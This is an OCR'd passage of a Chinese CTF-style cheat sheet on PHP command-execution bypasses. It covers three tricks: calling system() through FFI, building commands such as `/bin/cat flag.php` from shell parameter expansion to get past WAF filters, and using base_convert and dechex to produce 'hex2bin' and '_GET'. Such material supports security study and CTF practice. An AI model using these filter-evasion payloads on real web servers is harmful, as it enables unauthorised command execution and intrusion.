 
### 18. FFI 执行命令 (PHP >= 7.4) 🗽

**核心原理：**

FFI (Foreign Function Interface) 是 PHP 7.4 引入的扩展，允许 PHP 代码调用 C 语言编写的函数。通过 FFI，可以直接定义并调用标准 C 库中的 `system()` 函数，从而执行任意系统命令。

**利用示例：**

```php
<?php
// 检查 FFI 是否可用
if (!class_exists('FFI')) {
    die('FFI not available');
}
// 定义 C 函数原型
$ffi = FFI::cdef("int system(const char *command);");
// 调用 system 函数执行命令
$ffi->system("ls -la > /tmp/output.txt");
// 无直接回显，需要重定向输出或使用反弹 shell
?>
```

---

### 19. 环境变量绕过 🌎

**核心原理：**

当 WAF 过滤了命令中的字母、数字或特定字符时，可以利用 Shell 的环境变量和参数扩展（Parameter Expansion）来构造命令字符串。例如，`${PATH}`、`${PWD}`、`${#}` 等变量和操作符可以用来切片和拼接，生成所需字符。

**利用示例：**

假设需要构造 `/bin/cat flag.php`，但不能使用字母。

* `/${PWD:${#}:${##}}` -> `/` (利用 `${#}=0` 和 `${##}=1` 来切片)
* `${PATH:~A}` -> 取 `$PATH` 的最后一位字符
* `${HOME::$?}` -> 取 `$HOME` 的第一位字符

**组合Payload:**
`/${PWD:${#}:${##}}???/${PWD:${#}:${##}}??${#?} ${PWD:~A}???`
(此 payload 高度依赖特定系统环境和 Shell 变量的值，需要精确构造)

---

### 20. 数学与进制转换函数绕过 🔢

**核心原理：**

当字母被过滤时，可以使用 PHP 的数学和进制转换函数（如 `base_convert()`, `dechex()`, `hex2bin()`）来动态生成包含字母的字符串，如函数名 `system` 或超全局变量名 `_GET`。

**利用示例：**

* `base_convert('37907361743', 10, 36)` 会返回字符串 `'hex2bin'`。
* `dechex('1598506324')` 会返回 `'5f474554'`，即 `_GET` 的十六进制表示。
